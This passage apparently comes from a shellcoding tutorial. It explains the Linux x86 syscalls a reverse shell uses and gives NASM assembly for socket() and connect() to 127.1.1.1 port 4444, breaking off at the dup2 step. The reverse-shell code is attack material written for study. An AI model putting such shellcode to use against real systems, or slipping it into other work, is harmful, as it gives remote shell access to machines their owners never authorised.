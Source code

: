 The reverse shell seems to be slightly smaller than the bind shell, as we seem to only have 4 syscalls to handle:
- socket
- connect
- dup2
- execve

The syscalls are nearly identical to those used in the bind shell, with only using **connect** with remote *host* and *port* instead of **bind** with local *host* and *port*.  Here is the same functionality in assembly:

```nasm
; reverse_shell_vanilla.nasm
;  - Connect to a host, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x1 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

	push 0x0		; IPPROTO_IP
	push 0x1		; SOCK_STREAM
	push 0x2		; AF_INET
	mov eax, 0x66		; socketcall, 102
	mov ebx, 0x1		; socket, 1
	mov ecx, esp		; args
	int 0x80		; execute
	mov esi, eax		; save sockfd


	; int socketcall(int call, unsigned long *args)
        ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
        ; struct sockaddr_in {short int sin_family, unsigned short int sin_port, struct in_addr sin_addr, 0}
        ; eax = 0x66 (socketcall)
        ; ebx = 0x3 (connect)
        ; ecx = esp
        ; esp => |----------|----------|0x00000018|0x0002|0x115C|0x7f010101|
        ;           sockfd      addr      addrlen  AF_INET  port   ipaddr

	push 0x0101017f		; ipaddr, 127.1.1.1
	push word 0x5c11	; port, 4444
	push word 0x2		; AF_INET
	mov ecx, esp
	push 0x10		; addrlen, 16
	push ecx		; addr
	push esi		; sockfd
	mov eax, 0x66		; socketcall, 102
	mov ebx, 0x3		; connect, 3	
	mov ecx, esp		; args
	int 0x80		; execute


        ; int dup2(int oldfd, int newfd)
        ; eax = 0x3f (dup2)
        ; ebx = connfd
        ; ecx = 0x0

```